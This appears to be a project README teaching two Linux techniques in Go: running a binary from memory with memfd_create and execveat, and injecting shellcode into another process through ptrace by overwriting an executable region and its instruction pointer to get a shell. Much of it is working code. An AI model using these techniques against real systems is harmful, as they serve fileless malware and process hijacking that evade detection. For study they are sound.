 # How I used memfd_create and execveat to run a binary in memory 
The whole idea for this projects implementation is to turn binary into a QR code and then decode it in memory and run a binary in memory.

## memfd_create
In order to do this, we can use the system call memfd_create to create an anonymous file. This file acts like a regular file so it canbe "modified, truncated, memory-mapped and so on" (man2memfd, nd). The difference with this file is that it lives in memory so if the power goes out the file is gone.
```go
fd, err := unix.MemfdCreate("memexec", 0)
if err != nil {
    return fmt.Errorf("MemfdCreate error: %v", err)
}
defer unix.Close(fd)
```
The code above uses memfdcreate from the go unix library and creates the memory file "memexec". The flag 0 means that no special flags have been set. 

```go
n, err := unix.Write(fd, binaryData)
if err != nil || n != len(binaryData) {
    return fmt.Errorf("Write error: %v (wrote %d of %d)", err, n, len(binaryData))
}
```
The code here specifically "unix.Write(fd, binaryData)" then writes the binary into the memfd file using fd (file discriptor) (which we created using memfd_create). 

## execveat

So now we have loaded the file in memory we need to execute it. The reason we are using execveat and not the more common execve is because execveat allowed executing a program from a file descriptor (man2execveat, nd). 
```go
argv := []string{"memexec_binary"}
envp := os.Environ()
return execveatEmptyPath(fd, argv, envp)
```
The above code creates argv which is just a placeholder for the memexec_binary.
envp obtains the environment variables from os.Environ().


```go
func execveatEmptyPath(fd int, argv []string, envp []string) error {
    argvPtrs := make([]*byte, len(argv)+1)
    for i, s := range argv {
        cstr, err := unix.BytePtrFromString(s)
        if err != nil {
            return fmt.Errorf("invalid argv string %q: %w", s, err)
        }
        argvPtrs[i] = cstr
    }
    ...
    const SYS_EXECVEAT = unix.SYS_EXECVEAT
    r1, _, e := unix.Syscall6(
        SYS_EXECVEAT,
        uintptr(fd),
        uintptr(unsafe.Pointer(emptyStringPtr)),
        uintptr(unsafe.Pointer(&argvPtrs[0])),
        uintptr(unsafe.Pointer(&envpPtrs[0])),
        uintptr(AT_EMPTY_PATH),
        0,
    )
    ...
}
```
In the above code, what we are doing is passing in the file descriptor, argv and envp.

The function then inits a slice called argvPtrs to store c-style string pointers since syscalls in C want argv's to be arrays of C strings. 

The for loop then converts each string in argv and returns an error if there are any invalid strings.To ensure a slice is terminated with a nil pointer we use (len(argv)+1)

After that we can invoke execveat using the unix.Syscall6 which is a go wrapper for using syscalls. 


SYS_EXECVEAT, --> This is the syscall
        uintptr(fd), --> passing in the file descriptor
        uintptr(unsafe.Pointer(emptyStringPtr)), --> The path here is empty because we are using the AT_EMPTY_PATH (refer to the man page)
        uintptr(unsafe.Pointer(&argvPtrs[0])), --> pointer to argv arr
        uintptr(unsafe.Pointer(&envpPtrs[0])), --> pointer to envp arr
        uintptr(AT_EMPTY_PATH), // AT_EMPTY_PATH to use execveat with fd
        0, --> we did not need to use this

If successful, the function doesn't return because the current process image is replaced. If it fails, e is returned.


# Process injection via Ptrace

In the code directory, you will see infect.c which was used as a blueprint to make infect.go

To try out infect.go first run ./binaries/pid. You will need this PID for the process injection. The 2 main imports are buffio to read from /proc/pid/maps. The reason we do this is so we can find a memory region that is rxp. Then we get to the shellcode. This shellcode was obtained from https://shell-storm.org/shellcode/files/shellcode-806.html if you are curious. 


```go
func inject(pid int) {
	var regs syscall.PtraceRegs

	// Attach to the target process
	if err := syscall.PtraceAttach(pid); err != nil {
		fmt.Printf("Failed to attach to process: %v\n", err)
		os.Exit(1)
	}
	defer syscall.PtraceDetach(pid)

	// Wait for the process to stop
	if _, err := syscall.Wait4(pid, nil, 0, nil); err != nil {
		fmt.Printf("Failed to wait for process: %v\n", err)
		os.Exit(1)
	}

	// Get the current register state
	if err := syscall.PtraceGetRegs(pid, &regs); err != nil {
		fmt.Printf("Failed to get register state: %v\n", err)
		os.Exit(1)
	}

	// Parse /proc/[pid]/maps to find an executable memory region
	mapsPath := fmt.Sprintf("/proc/%d/maps", pid)
	file, err := os.Open(mapsPath)
	if err != nil {
		fmt.Printf("Failed to open maps file: %v\n", err)
		os.Exit(1)
	}
	defer file.Close()

	var address uintptr
	scanner := bufio.NewScanner(file)
	for scanner.Scan() {
		line := scanner.Text()
		if strings.Contains(line, "r-xp") {
			parts := strings.Split(line, " ")
			addrRange := strings.Split(parts[0], "-")
			if len(addrRange) != 2 {
				continue
			}

			addr, err := strconv.ParseUint(addrRange[0], 16, 64)
			if err == nil {
				address = uintptr(addr)
				break
			}
		}
	}

	if address == 0 {
		fmt.Println("Failed to find a suitable memory region for injection.")
		os.Exit(1)
	}

	// Write the shellcode to the target process's memory
	for i := 0; i < len(shellcode); i += 8 {
		chunk := shellcode[i:]
		if len(chunk) > 8 {
			chunk = chunk[:8]
		}
		if _, err := syscall.PtracePokeData(pid, address+uintptr(i), chunk); err != nil {
			fmt.Printf("Failed to write data to process memory: %v\n", err)
			os.Exit(1)
		}
	}

	// Modify the instruction pointer (RIP) to jump to the injected code
	regs.Rip = uint64(address)
	if err := syscall.PtraceSetRegs(pid, &regs); err != nil {
		fmt.Printf("Failed to set register state: %v\n", err)
		os.Exit(1)
	}

	fmt.Println("[*] Successfully injected shellcode!")
}
```

The above code is the inject function which takes the PID. we init a variable called regs to hold the register state of the target process so we can modify rip.

We then use syscall.PtraceAttach(pid) to attach to the target process. defer syscall.PtraceDetach() will also ensure that ptrace will detach from our target process after returning.

We then use the wait syscall to wait for our process to stop.

After that we open procpidmaps to find a list of memory regions that is rxp so we can inject the shellcode. When an executable region is found, the address is parsed and stored in a variable called address.

We then use syscall.PtracePokeData() to write the shellcode to the target processes memory writing 8 bytes at a time. This is because pokedata operates in memory sized chinks (which is 8 bytes in 64 bit systems)

Finally, we modify the RIP register to point to the start address of the injected shellcode and it we can get a shell. 



